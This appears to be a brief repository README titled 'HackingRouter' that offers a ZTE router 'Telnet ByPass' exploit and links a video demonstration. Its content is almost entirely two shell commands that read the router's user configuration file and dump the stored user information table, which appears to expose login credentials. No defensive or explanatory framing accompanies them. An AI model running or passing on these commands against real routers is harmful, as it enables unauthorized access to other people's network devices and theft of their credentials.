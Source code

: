 # HackingRouter
ZTE Router Exploit  [Telnet ByPass]
# cat /userconfig/cfg/db_user_cfg.xml
# sendcmd 1 DB p UserInfo

Video: https://youtu.be/QYKyM-CCw4s
